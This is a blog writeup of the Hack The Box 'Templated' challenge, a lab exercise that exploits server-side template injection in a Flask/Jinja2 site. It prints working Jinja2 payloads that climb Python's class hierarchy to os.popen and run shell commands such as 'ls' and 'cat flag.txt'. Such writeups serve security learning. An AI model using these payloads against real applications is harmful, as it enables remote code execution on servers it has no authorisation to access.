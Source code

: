 ```yaml
---
layout: post
title: "[HTB] Templated Writeup"
slug: "templated"
date: "2023-01-14"
comments: false
categories:
  - hacking
tags:
  - ctf
  - write up
  - hack the box
  - ssti
---
```


This is my writeup for Hackthebox [Templated](https://app.hackthebox.com/challenges/templated) Web Challenge. The challenge is fairly straight forward and is an easier challenge.

## Initial Analysis

Visiting the ip address provided, we are greeted with ```site still under construction``` page with powered by ```Flask/Jinja2``` text at the bottom.

![site still under](/images/templated/templated1.png)

*img: Site still under construction.*

Upon investigation we discover that ```Flask``` is a python web framework while ```Jinja2``` is the templating engine utilised. Since the name of the challenge also includes ```template```d we can be fairly certain that it has to do something with ```Server Side Template Injection```.

> Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side. [PortSwigger.net](https://portswigger.net/web-security/server-side-template-injection#:~:text=What%20is%20server%2Dside%20template,fixed%20templates%20with%20volatile%20data.)

SSTI basically allows us to exploit the templating engine to execute code and other payloads. 

## Testing

Let us test the url by injecting a plain text in the address bar of the browser.

![text](/images/templated/templated2.png)

img: Text displayed on the screen.

Now injecting a SSTI payload in the address.
```python
{{1+1}}
```
![text](/images/templated/templated3.png)

*img: Value of 2 displayed.*

```python
{{"hello".upper()}}
```

Let us try another python string method.

![text](/images/templated/templated4.png)

*img: String hello is capitalised.*

```python
{{"hello".upper()}}
```

Our goal is to exploit the template engine so that we can import the ```os``` library and make system calls on the servers. 
Here is a really good [resource](https://secure-cookie.io/attacks/ssti/) on how to achieve this by leveraging python classes and modules.


Using this code below, we look at the base class of the string and then list the subclasses derived from the base class.
```python
{{"hello".__class__.__base__.__subclasses__()}}
```

![text](/images/templated/templated5.png)

*img: executing python code. 

We parse through the subclasses listed in the above image and find the <class 'warnings.catch_warnings'>. This subclass allows us to import the sys module and then later the os module. We can use some comma separated element parser to find the location of the ```warnings```(it is 186 in our case) class and then write our exploit as below:

```python
{{"hello".__class__.__base__.__subclasses__()[186].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}n
```

![text](/images/templated/templated6.png)

*img: We get the files listed by using the ls command. 

Since we can see that there is a flag.txt present in the directory. We can just execute ```cat flag.txt``` to get the flag.

```python
{{"hello".__class__.__base__.__subclasses__()[186].__init__.__globals__['sys'].modules['os'].popen("cat flag.txt").read()}}n

```
> The flag is HTB{t***************************************!}







